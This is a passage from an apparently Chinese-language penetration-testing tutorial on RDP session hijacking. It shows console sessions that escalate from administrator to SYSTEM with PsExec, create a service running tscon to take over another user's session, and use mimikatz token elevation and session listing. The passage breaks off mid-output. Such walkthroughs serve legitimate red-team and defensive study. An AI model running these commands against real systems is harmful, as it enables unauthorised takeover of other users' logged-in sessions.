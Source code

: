 ### cmd - tscon

可以利用 PsExec 从 administrator 到 SYSTEM 权限进行操作，创建服务使用 [tscon](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/tscon) 命令对目标进行 RDP 会话劫持：

```console
C:\Users\Administrator\Desktop>quser
 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON     TIME
>administrator         rdp-tcp#9           2  Active          .  9/27/2023 10:21 PM
 test                  rdp-tcp#10          3  Active          4  9/27/2023 10:28 PM

C:\Users\Administrator\Desktop>.\PsExec64.exe -s -accepteula cmd

PsExec v2.4 - Execute processes remotely
Copyright (C) 2001-2022 Mark Russinovich
Sysinternals - www.sysinternals.com


Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>sc create sesshijack binpath= "cmd.exe /k tscon 3 /dest:rdp-tcp#9"
[SC] CreateService SUCCESS

C:\Windows\system32>net start sesshijack

The service is not responding to the control function.
C:\Windows\system32>
More help is available by typing NET HELPMSG 2186.

```

### mimikatz - ts::remote

以下是使用 mimikatz 劫持 test 用户的示例：

```console
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

368 {0;000003e7} 0 D 17195      NT AUTHORITY\SYSTEM S-1-5-18 (04g,20p) Primary
 -> Impersonated !
 * Process Token : {0;0005a226} 2 D 1547641    10_0_8_17\Administrator S-1-5-21-3697670079-2126774415-1611505882-500 (14g,23p) Primary
 * Thread Token  : {0;000003e7} 0 D 1568236    NT AUTHORITY\SYSTEM S-1-5-18 (04g,20p) Impersonation (Delegation)

mimikatz # ts::sessions

Session: 0 - Services
  state: Disconnected (4)
  user :  @
  curr : 9/27/2023 10:56:14 PM
  lock : no

Session: *2 - RDP-Tcp#7
  state: Active (0)
```